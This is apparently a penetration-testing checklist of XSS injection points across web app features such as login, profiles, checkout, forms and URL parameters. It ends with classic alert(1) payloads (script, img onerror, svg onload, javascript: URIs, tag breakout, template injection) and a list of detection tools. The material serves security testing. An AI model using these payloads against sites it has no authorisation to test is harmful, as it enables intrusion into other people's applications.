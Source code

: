 
## Purpose:
This checklist helps you identify potential XSS injection points across different components of a web application, including input fields, headers, URLs, and APIs.

---

## Authentication & Session Handling
- [ ] `/login?user=<xss>`
- [ ] `/register?email=<xss>`
- [ ] `/2fa/setup?phone=<xss>`
- [ ] `/reset-password?token=<xss>`
- [ ] `/change-password?success=<xss>`
- [ ] Hidden form fields like `csrf_token=<xss>`
- [ ] OAuth redirect: `/auth/callback?redirect_uri=<xss>`
- [ ] Magic link email param: `/login?magic=<xss>`
- [ ] Email verification link with `?email=<xss>`
- [ ] POST body param: `username=<xss>&password=123`

---

## Profile & User Management
- [ ] `/profile?user_id=<xss>`
- [ ] `?name=<xss>` in profile name update
- [ ] `bio=<xss>` in rich text bio fields
- [ ] `avatar_url=<xss>` in image src
- [ ] `location=<xss>` in user metadata
- [ ] `occupation=<xss>` in job titles
- [ ] `status=<xss>` in status messages
- [ ] `/settings?tab=<xss>` tab param in settings page
- [ ] `gender=<xss>` dropdown
- [ ] `birthdate=<xss>` if displayed in JS

---

## E-Commerce / Transactional
- [ ] `product_id=<xss>` in product preview
- [ ] `category=<xss>` in product filtering
- [ ] `search=<xss>` in search results
- [ ] `coupon_code=<xss>` in checkout
- [ ] `qty=<xss>` in cart update
- [ ] `comments=<xss>` in review forms
- [ ] `tracking_id=<xss>` in order tracking
- [ ] `delivery_address=<xss>` if echoed
- [ ] `gift_message=<xss>` in order confirmation
- [ ] `wishlist_name=<xss>` in saved lists

---

## Communication / Forms
- [ ] `contact_message=<xss>` in contact forms
- [ ] `feedback=<xss>` in feedback form
- [ ] `subject=<xss>` in support tickets
- [ ] `file_name=<xss>` in upload previews
- [ ] `chat_message=<xss>` in real-time chat
- [ ] `description=<xss>` in issue trackers
- [ ] `title=<xss>` in blog/forum posts
- [ ] `reply=<xss>` in comment sections
- [ ] `answer=<xss>` in Q&A forums
- [ ] `report_reason=<xss>` in abuse reporting

---

## URL/Query-Based Insertion
- [ ] `?redirect=<xss>` on redirects
- [ ] `?return_url=<xss>` on login/logout
- [ ] `?error=<xss>` on error pages
- [ ] `?success=<xss>` on form completion
- [ ] `?preview=<xss>` on preview features
- [ ] `?mode=<xss>` on toggling UI modes
- [ ] `?lang=<xss>` on localization
- [ ] `?tab=<xss>` in tabbed navigation
- [ ] `?view=<xss>` in dashboards
- [ ] `?callback=<xss>` in JSONP endpoints

---

## Bonus Insertion Patterns
- [ ] `<script>alert(1)</script>` basic payload
- [ ] `"><img src=x onerror=alert(1)>` classic image vector
- [ ] `<svg/onload=alert(1)>` SVG attack vector
- [ ] `<iframe src="javascript:alert(1)">` iframe trick
- [ ] `<body onload=alert(1)>` onload attribute abuse
- [ ] `javascript:alert(1)` in href/src
- [ ] `</textarea><script>alert(1)</script>` closing tag injection
- [ ] Template injection: `{{7*7}}`
- [ ] JSON-based: `{"name":"<xss>"}` in REST API POST
- [ ] WebSocket echo server reflecting data

---

## Tools for Detection
- [ ] Burp Suite + Turbo Intruder
- [ ] XSStrike
- [ ] Dalfox
- [ ] XSS Hunter / Interactsh
- [ ] Google Chrome DevTools (DOM breakpoints)

---
